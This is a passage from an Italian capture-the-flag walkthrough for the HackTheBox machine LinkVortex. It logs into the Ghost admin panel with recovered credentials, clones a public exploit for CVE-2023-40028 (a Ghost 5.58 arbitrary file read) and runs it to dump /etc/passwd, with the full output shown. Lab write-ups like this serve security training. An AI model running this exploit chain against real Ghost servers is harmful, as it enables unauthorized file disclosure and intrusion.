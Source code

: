 - OctopiFociPilfer45
- thisissupersafe

Si ha accesso alla pagina `http://linkvortex.htb/ghost/#/dashboard` con le credenziali:

- admin@linkvortex.htb:OctopiFociPilfer45

![08](./images/08.png)

```
$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git
```

Si lancia l'exploit:

```
$ ./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45' -h http://linkvortex.com                                                                                                        
WELCOME TO THE CVE-2023-40028 SHELL                                                                                                                                                                       
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```